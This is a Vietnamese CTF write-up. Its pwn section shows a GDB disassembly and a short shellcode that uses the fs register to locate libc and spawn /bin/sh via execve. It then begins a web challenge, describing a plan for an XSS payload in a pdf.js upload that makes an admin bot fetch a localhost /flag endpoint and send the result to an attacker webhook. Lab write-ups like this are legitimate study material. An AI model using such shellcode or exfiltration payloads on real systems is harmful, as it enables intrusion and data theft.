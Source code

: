 ```asm
   0x0000559f719a521f <+64>:    mov    r11,0x0
   0x0000559f719a5226 <+71>:    mov    r12,0x0
   0x0000559f719a522d <+78>:    mov    r13,0x0
   0x0000559f719a5234 <+85>:    mov    r14,0x0
   0x0000559f719a523b <+92>:    mov    r15,0x0
   0x0000559f719a5242 <+99>:    pxor   xmm0,xmm0
   0x0000559f719a5246 <+103>:   pxor   xmm1,xmm1
   0x0000559f719a524a <+107>:   pxor   xmm2,xmm2
   0x0000559f719a524e <+111>:   pxor   xmm3,xmm3
   0x0000559f719a5252 <+115>:   pxor   xmm4,xmm4
   0x0000559f719a5256 <+119>:   pxor   xmm5,xmm5
   0x0000559f719a525a <+123>:   pxor   xmm6,xmm6
   0x0000559f719a525e <+127>:   pxor   xmm7,xmm7
=> 0x0000559f719a5262 <+131>:   jmp    rdi
   0x0000559f719a5264 <+133>:   nop
   0x0000559f719a5265 <+134>:   pop    rbp
   0x0000559f719a5266 <+135>:   ret
```
Nhưng vẫn còn một nơi mà chương trình chưa clear, đó là `$FS`.

![image](https://lunaere-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F3296390032-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FJGK9O9RgeCP7yW9iJ1CJ%252Fuploads%252F7eyiduiPBWPuA3Nae8mS%252Fimage.png%3Falt%3Dmedia%26token%3D5d05343e-f94b-4a76-bba1-1495f5f36ae7&width=768&dpr=1&quality=100&sign=b0dbffbb94d7583551fbc9157b06af7b784f9784a1f97bac847cef94487f42fe)

## shellcode:
```asm
  mov r8, [fs:0]
  add r8, 0x28c0
  add r8, 0x2646e
  mov r10, 29400045130965551
  mov rdi, 0x0000006969696000
  mov [rdi], r10
  mov rax, 0x3b
  jmp r8
```

# Web

## Upload

Nhìn sơ qua thì chall này cung cấp cho mình 2 link, 1 link của chall, 1 link của bot (thực ra là 1, cùng domain nhưng khác route) thì đây chắc chắn là 1 chall về XSS rồi.

![image](https://hackmd.io/_uploads/rJdrGyNBR.png)

Flag giấu ở endpoint `/flag` và chỉ nhận ip từ localhost, port là 5000 cho nên payload XSS của chúng ra phải route con bot đến đây và fetch sang webhook của chúng ta.

Nhưng chall chỉ cho chúng ta upload 1 file dạng pdf sử dụng pdf.js 

![image](https://hackmd.io/_uploads/HJC6MyVHC.png)
